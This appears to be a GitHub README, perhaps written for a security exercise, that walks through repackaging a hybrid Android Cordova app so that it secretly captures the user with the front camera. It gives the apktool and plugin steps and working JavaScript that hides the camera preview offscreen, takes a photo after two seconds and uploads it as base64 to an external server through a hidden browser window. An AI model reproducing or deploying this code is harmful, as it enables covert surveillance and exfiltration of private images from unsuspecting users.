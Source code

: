 # App-Repackaging-Attack with Cordova
modifying an existing hybrid android mobile app, with the goal of stealthily ex filtrating private user data.

The goal is to modify this app’s code to access the camera stealthily. 
After modification, the app should start the camera in the background and capture user picture using the front-facing camera. 
Then the app should upload the captured image to my web server/app mimicking malicious behavior.

#Steps
1. Use apktool to unpack and repack the APK.

2. Create a new Cordova project and copy the contents of the `assets/www’ directory from the unpacked APK to the ‘www’ directory of the new Cordova project.
(this makes it easier to debug the app using "chrome://inspect/#devices").

3. Install a third-party plugin to the new project to capture image, i used cordova-plugin-camera-preview "cordova plugin add cordova-plugin-camera-preview"

4. To stealthily capture image, i placed the following code in deviceready function:

CameraPreview.startCamera({x: 5, y: 5000, width: 300, height: 300, toBack: false, previewDrag: true, tapPhoto: true});
  
  setTimeout(function() {
    CameraPreview.takePicture(function(imgData){
      console.log('imgData');
      cordova.InAppBrowser.open('http://10.0.2.2:5000/image?image=' + imgData, '_self', 'hidden=yes');
      console.log('imgData');     
        });

  }, 2000);
  
  The above code will start the camera preview but hides the actual image of the camera because of the edited dimensions "y: 5000".
  the setTimeout function is set to 2000 or 2 seconds to capture the image and upload the image to the intruder server located 
  at 'http://10.0.2.2:5000/image?image='.
  
  5. Once captured on the external server, the data received is in the form of base64 text. The python ode will convert and write the
  base64 code into a .png file.
